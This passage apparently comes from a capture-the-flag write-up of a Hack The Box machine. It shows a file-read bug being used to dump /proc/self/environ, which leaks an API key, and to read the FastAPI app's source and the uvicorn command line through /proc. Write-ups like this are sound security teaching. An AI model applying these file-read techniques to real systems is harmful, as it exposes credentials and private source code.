     
    
    oxdf@hacky$ ./get_file.sh /proc/self/environ | tr '\000' '\n'
    USER=htb
    HOME=/home/htb
    OLDPWD=/
    PORT=80
    LOGNAME=htb
    JOURNAL_STREAM=9:18599
    APP_MODULE=app.main:app
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    INVOCATION_ID=0ace2198aa724422b25a8057eef74fdd
    LANG=C.UTF-8
    API_KEY=68b329da9893e34099c7d8ad5cb9c940
    HOST=0.0.0.0
    PWD=/home/htb
    

The working directory is `/home/htb`, and the Python app is `app.main:app`.
That means that it’s loading the `app` object from `app/main.py`.

That path works to read the source:

    
    
    oxdf@hacky$ ./get_file.sh /home/htb/app/main.py
    import asyncio                      
    
    from fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends
    from fastapi_contrib.common.responses import UJSONResponse
    ...[snip]...
    

I could also use `/proc/self/app/main.py` to get the same result.

Another useful bit of info I could glean from `/proc` is to get the [parent
pid](https://www.linuxquestions.org/questions/linux-enterprise-47/ppid-from-
proc-file-system-594775/) from `stat`:

    
    
    oxdf@hacky$ ./get_file.sh /proc/self/stat
    2265 (python3) S 2254 2241 2241 0 -1 4194304 23201 101 0 0 77 7 0 0 20 0 2 0 320599 157327360 16662 18446744073709551615 4194304 7042053 140735671126528 0 0 0 0 16781312 16386 0 0 0 17 1 0 0 0 0 0 9395632 9685776 35241984 140735671131712 140735671131841 140735671131841 140735671132135 0
    

It’s the forth column, so 2254 in this case. I’ll grab that `cmdline`:

    
    
    oxdf@hacky$ ./get_file.sh /proc/2254/cmdline | tr '\000' ' '
    /usr/bin/python3 /home/htb/.local/bin/uvicorn --reload --host 0.0.0.0 --port 80 app.main:app
    

I could read the `environ` file to confirm the exact local directory, but it’s
running `app` from `app/main.py`. I’ll also note it’s running with `--reload`.

#### Find Secret

The top import line shows that this app is using
[FastAPI](https://fastapi.tiangolo.com/), an Python API framework.

